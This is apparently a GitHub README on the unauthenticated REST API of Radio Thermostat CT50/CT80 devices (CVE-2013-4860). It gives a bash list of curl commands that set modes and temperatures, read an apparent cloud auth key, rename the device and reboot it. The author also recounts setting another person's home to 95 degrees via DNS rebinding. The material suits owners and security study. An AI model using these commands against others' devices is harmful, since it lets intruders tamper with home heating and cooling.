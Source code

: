 # Radio Thermostat REST API

![Radio thermostat image](.images/amazon.png)

The Radio Thermostat CT50 & CT80 (perhaps other models too) support a documented REST API to control heating/cooling in your house from your LAN. This is particularly interesting because there doesn't seem to be any authentication to access this API, leaving anyone on the network to have full control of the device. Daniel Crowly of Trustwave SpiderLabs [reported this vulnerability](https://web.archive.org/web/20180401193243/https://www.trustwave.com/Resources/Security-Advisories/Advisories/TWSL2013-022/?fid=3870) back in 2013, but the company doesn't seem to give a sh!t.

> CVE: CVE-2013-4860
> CWE: CWE-287 Improper Authentication

>When on the same network as a Radio Thermostat unit, no authentication is
required to use any part of the API. Users on the same subnet as the unit
can query and change various settings such as the operation mode, wifi
connection settings, and temperature thresholds.

Worse yet, there is no [Host or Referer \[sic\] header validation](https://github.com/brannondorsey/host-validation), which can expose the device to the WAN via a [DNS Rebinding attack](https://en.wikipedia.org/wiki/DNS_rebinding) (using [`whonow`](https://github.com/brannondorsey/whonow) or another malicious DNS server). I've done this successfully myself by sending someone on another network a link that, once followed, will set the target temperature in their house to 95 degrees.

Here I've provided a few notes on how the API works. If you have one of these devices you can control it via CURL using the code below. Any HTTP client should work too, as I've controlled the device via JavaScript's `fetch` API in the browser too. This isn't an exhaustive list of API endpoints and functionality, but its a quick overview of some of the most interesting stuff. For more info, see the official API documentation PDF below.


[Official Radio Thermostsat API Documentation PDF](RTCOAWiFiAPIV1_3.pdf)

If you do have one of these suckers, you should play with it, but then I'd recommend disabling WiFi or disconnecting it from your home network as it is trivial for attackers to control the temperature in your house so long as you are browsing the web on the same network.

There is also a [Python API](https://github.com/mhrivnak/radiotherm) for communicating with the device, however I have not used it myself. I've confirmed that this API works with a CT50 I purchased on Amazon in March 2018 (version V1.94, firmware v1.04.84, and API version 113).

```bash
#!/bin/bash

THERMOSTAT="192.168.1.100"

# general stats
curl "${THERMOSTAT}/tstat" -X GET

# get the thermosat model
curl "${THERMOSTAT}/tstat/model" -X GET

# version
curl "${THERMOSTAT}/tstat/version" -X GET

# current temperature
curl "${THERMOSTAT}/tstat/temp" -X GET

# thermostat operating mode
# tmode: 0 = OFF, 1 = HEAT, 2 = COOL, 3 = AUTO
curl "${THERMOSTAT}/tstat/tmode" -X GET
curl "${THERMOSTAT}/tstat" -d '{"tmode": 0}' -X POST # OFF
curl "${THERMOSTAT}/tstat" -d '{"tmode": 1}' -X POST # HEAT
curl "${THERMOSTAT}/tstat" -d '{"tmode": 2}' -X POST # COOL
curl "${THERMOSTAT}/tstat" -d '{"tmode": 3}' -X POST # AUTO

# fan mode
# fmode: 0 = AUTO, 1 = AUTO/CIRCULATE, 2 = ON
curl "${THERMOSTAT}/tstat/fmode" -X GET
curl "${THERMOSTAT}/tsta" -d '{"fmode": 0}' -X POST # AUTO
curl "${THERMOSTAT}/tsta" -d '{"fmode": 1}' -X POST # AUTO/CIRCULATE
curl "${THERMOSTAT}/tsta" -d '{"fmode": 2}' -X POST # ON

# check if the target temperature has a temporary override
# override: 0 = DISABLED, 1 = ENABLED
curl "${THERMOSTAT}/tstat/override" -X GET

# target temperature hold status
# hold: 0 = DISABLED, 1 = ENABLED
curl "${THERMOSTAT}/tstat/hold" -X GET
curl "${THERMOSTAT}/tstat" -d '{"hold": 1}' -X POST

# set absolute heat (have to set mode and heat)
curl "${THERMOSTAT}/tstat" -d '{"tmode": 1, "a_heat": 95}' -X POST

# set absolute cool (have to set mode and cool)
curl "${THERMOSTAT}/tstat" -d '{"tmode": 2, "a_cool": 35}' -X POST

# set the temporary target heat AND mode (heat mode)
# t_heat: accepts values between 35-95
curl "${THERMOSTAT}/tstat" -d '{"t_heat": 95}' -X POST

# set the temporary target heat AND mode (cool mode)
# t_heat: accepts values between 35-95
curl "${THERMOSTAT}/tstat" -d '{"t_cool": 35}' -X POST

# LED
curl "${THERMOSTAT}/tstat/led" -d '{"energy_led": 0}' -X POST # OFF
curl "${THERMOSTAT}/tstat/led" -d '{"energy_led": 1}' -X POST # GREEN
curl "${THERMOSTAT}/tstat/led" -d '{"energy_led": 2}' -X POST # YELLO
curl "${THERMOSTAT}/tstat/led" -d '{"energy_led": 4}' -X POST # RED

# Messaging/Text
# user messaging area (only available on CT80)
# uma: line = 0, 1 message = string
curl "${THERMOSTAT}/tstat/uma" -d '{"line": 0, "message": "pwnd by braxxox"}' -X POST
# price messaging area, can only write numbers (like, BOOBS)
# uma: line = 0, 1, 2, 3 (corresponding to energy unit kW, etc) message = numbers
curl "${THERMOSTAT}/tstat/pma" -d '{"line": 1, "message": "80085"}' -X POST

# Night Light
curl "${THERMOSTAT}/tstat/night_light" -X GET

# CT80 only I believe
curl "${THERMOSTAT}/tstat/night_light" -d '{"intensity": 0}' -X POST # OFF
curl "${THERMOSTAT}/tstat/night_light" -d '{"intensity": 1}' -X POST # 25%
curl "${THERMOSTAT}/tstat/night_light" -d '{"intensity": 2}' -X POST # 50%
curl "${THERMOSTAT}/tstat/night_light" -d '{"intensity": 3}' -X POST # 75%
curl "${THERMOSTAT}/tstat/night_light" -d '{"intensity": 4}' -X POST # 100%

# it looks like this might provide an auth key!
curl "${THERMOSTAT}/cloud" -X GET

# get system information
curl "${THERMOSTAT}/sys" -X GET

# get the system name
curl "${THERMOSTAT}/sys/name" -X GET
curl "${THERMOSTAT}/sys/name" -d '{"name": "hack the planet!"}' -X POST

# reboot the device
curl "${THERMOSTAT}/sys/command" -d '{"command": "reboot"}' -X POST
```
